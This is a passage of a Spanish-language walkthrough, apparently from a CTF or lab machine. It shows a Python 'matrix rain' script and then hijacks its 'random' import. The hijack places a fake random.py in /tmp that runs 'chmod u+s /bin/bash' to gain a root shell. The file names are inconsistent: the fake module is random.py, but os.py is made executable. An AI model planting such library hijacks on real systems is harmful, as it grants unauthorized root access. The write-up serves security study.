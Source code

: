 Si revismaos el contenido del script de python
```python
cat script.py 
import os
import random
import time
import pytest

# Configuración de la pantalla
ROWS, COLUMNS = os.get_terminal_size()
DELAY = 0.05

def generate_column():
    """Genera una columna aleatoria de caracteres."""
    return [random.choice("ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()") for _ in range(ROWS)]

def draw_rain(columns):
    """Dibuja las columnas de caracteres en la pantalla."""
    #os.system('cls' if os.name == 'nt' else 'clear')  # Limpia la pantalla
    for col in zip(*columns):
        print("".join(col))
    time.sleep(DELAY)

def main():
    # Crear columnas aleatorias
    columns = [generate_column() for _ in range(COLUMNS)]

    while True:
        # Desplaza las columnas hacia abajo
        for col in columns:
            col.insert(0, random.choice("ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()"))
            col.pop()
        draw_rain(columns)

if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        print("\nAnimación terminada.")
```

Lo que podemos hacer es, Intentar secuestrar la una libreria de python: Para eso nos dirigimos al directorio **/tmp** para poder crear un banario malicioso de la libreria **random**
```bash
cat random.py 

import os
os.system("chmod u+s /bin/bash")
```

Ahora damos permisos de ejecucion a nuestro binario malicioso:
```bash
chmod +x os.py
```
